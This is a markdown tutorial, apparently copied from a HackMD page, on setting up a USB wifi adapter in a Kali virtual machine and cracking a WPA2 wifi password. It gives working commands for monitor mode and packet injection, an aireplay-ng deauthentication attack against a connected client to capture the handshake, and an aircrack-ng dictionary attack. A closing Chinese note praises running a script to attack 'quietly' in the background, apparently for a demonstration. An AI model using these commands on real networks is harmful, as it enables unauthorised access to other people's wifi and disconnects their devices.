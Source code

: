 # wifi: what's cracking?

> see [HackMD](https://hackmd.io/WEyS9iLSRje7boteEW4bWg)

## For Connection: network configuration


When pluging the usb device in, this window will pop up. Choose `Connect to Virtual machine` > select your destination device.

![圖片](https://hackmd.io/_uploads/HyYE0AqXyx.png)

`OK`
![圖片](https://hackmd.io/_uploads/ByDQCC5myx.png)

To check the device has already been connected, run `iwconfig` and you must see the device.
![圖片](https://hackmd.io/_uploads/BJgmRA971l.png)

If you see the device by running `lsusb` but don't see it appears at `iwconfig`, again, do the steps above, or check the network settings below. And if you did them several times but still don't see the device, restart the virtual machine.

Here is the connection settings.
`Tabs` >
![圖片](https://hackmd.io/_uploads/rympRA9Xyl.png)

`Edit` > `Virtual Network Editor`
No need to bridge
![圖片](https://hackmd.io/_uploads/r1UOR0qmyl.png)

`VM` > `Settings` > `Network Adapter`
Usually the pluging usb is `VMnet0`
![圖片](https://hackmd.io/_uploads/H1qeJko7Jx.png)


And the setting process is done. Go enjoy your cracking!

## Crack a wifi password: using commands

### Start Monitor Mode

Open monitor mode for the network adaptor is necessary. Here's several commands:

```bash=
ifconfig wlan0 down
```

If you run this, get no networks is normal.
```bash=2
airmon-ng check kill
```


```bash=3
iwconfig wlan0 mode monitor
```
If you see this, ignore it.
![圖片](https://hackmd.io/_uploads/S1VqYys71e.png)

```bash=4
ifconfig wlan0 up
airmon-ng start wlan0
```

To test if monitor mode really on, and ready for injection:
```bash=6
aireplay-ng --test wlan0
```
This is a success response: Injection is working!
![圖片](https://hackmd.io/_uploads/ryDatyj71g.png)

### Turn off monitor mode and recorvery neworks

```bash=
airmon-ng stop wlan0
ifconfig wlan0 down
```
Cause you've killed network manager, you don't have network connection. To recorver it, run:
```bash=3
service NetworkManager restart
```

### Crack a password

#### 1. get the target BSSID

For ex, the target has name `alEx`.
```
airodump-ng --essid alEx wlan0
```
You'll see the `BSSID` at the top left. `Ctrl+C` to interrupt it and copy the address: `62:2D:E9:E6:8A:47`
![圖片](https://hackmd.io/_uploads/rkRyAJjQJl.png)

#### 2. get stations' mac address that connected to the target
```
airodump-ng --bssid 62:2D:E9:E6:8A:47 -c 1 -w /home/kali/Desktop/nets/test1 wlan0
```

And files will store at `/home/kali/Desktop/nets/` with preffix `test1`.

Wait for 5 to 30 seconds, their should be an address (or addresses) below `STATION`.
By the way, the channel `CH` should stay at `1`.
![圖片](https://hackmd.io/_uploads/S1SbGesQke.png)

#### 3. get ACK

Open **ANOTHER** terminal, and the command above should stay running.
```
aireplay-ng -0 20 -a 62:2D:E9:E6:8A:47 -c 50:C2:E8:0B:44:55 wlan0
```

#### 4. EXPLOSION!!

Check the ACK you just get, the file name extension is `.cap`. And usually the latest one has the biggest number.
![圖片](https://hackmd.io/_uploads/SJRS_ximyl.png)

And there we go!
```
aircrack-ng -a2 -b 62:2D:E9:E6:8A:47 -w /home/kali/Desktop/passwords/10-million-password-list-top-1000000.txt /home/kali/Desktop/nets/test1*.cap
```

![圖片](https://hackmd.io/_uploads/SJQYkZs7Jx.png)

## Crack a wifi password: with Python scripts

基本上大部分情況都會被處理，如果還是爆開就...用上面的指令打，因為用上面的指令還比較有展示性一點，但如果用 script 就能悄悄的攻擊，兩種不一樣的方式。

所以如果可以的話，先問他們 wifi 名稱，放到 script 裡面讓他背景執行。如果真的不行的話再手動打，現場展示。